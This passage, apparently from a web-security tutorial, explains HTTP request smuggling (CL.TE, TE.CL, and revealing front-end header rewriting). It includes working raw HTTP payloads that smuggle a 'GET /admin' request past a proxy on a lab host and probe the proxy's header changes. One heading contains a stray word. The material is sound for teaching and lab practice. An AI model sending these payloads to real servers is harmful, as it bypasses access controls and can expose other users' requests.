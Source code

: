 
In the CL.TE attack, the `Content-Length` header is leveraged for the initial request, while the subsequent embedded request utilizes the `Transfer-Encoding: chunked` header. The front-end proxy processes the initial `POST` request but fails to inspect the embedded `GET /admin` request, allowing unauthorized access to the `/admin` path.

**TE.CL jatlh**
```
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 4
Transfer-Encoding: chunked
2b
GET /admin HTTP/1.1
Host: localhost
a=x
0

```
Conversely, in the TE.CL attack, the initial `POST` request uses `Transfer-Encoding: chunked`, and the subsequent embedded request is processed based on the `Content-Length` header. Similar to the CL.TE attack, the front-end proxy overlooks the smuggled `GET /admin` request, inadvertently granting access to the restricted `/admin` path.

### Revealing front-end request rewriting <a href="#revealing-front-end-request-rewriting" id="revealing-front-end-request-rewriting"></a>

Applications often employ a **front-end server** to modify incoming requests before passing them to the back-end server. A typical modification involves adding headers, such as `X-Forwarded-For: <IP of the client>`, to relay the client's IP to the back-end. Understanding these modifications can be crucial, as it might reveal ways to **bypass protections** or **uncover concealed information or endpoints**.

To investigate how a proxy alters a request, locate a POST parameter that the back-end echoes in the response. Then, craft a request, using this parameter last, similar to the following:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Connection: keep-alive
Transfer-Encoding: chunked

0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

search=
```
### Capturing other users' requests <a href="#capturing-other-users-requests" id="capturing-other-users-requests"></a>
